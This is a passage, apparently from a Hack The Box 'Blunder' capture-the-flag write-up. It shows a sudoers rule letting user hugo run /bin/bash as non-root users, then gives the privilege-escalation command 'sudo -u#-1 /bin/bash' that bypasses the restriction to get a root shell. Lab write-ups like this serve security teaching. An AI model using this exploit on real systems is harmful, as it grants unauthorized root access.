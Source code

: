 ```bash
# User privilege specification
root    ALL=(ALL:ALL) ALL
hugo ALL=(ALL,!root) /bin/bash

With ALL specified, user hugo can run the binary /bin/bash as any user
EXPLOIT: 

sudo -u#-1 /bin/bash

```

![picture3](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/blunder/14.png)

Thanks...





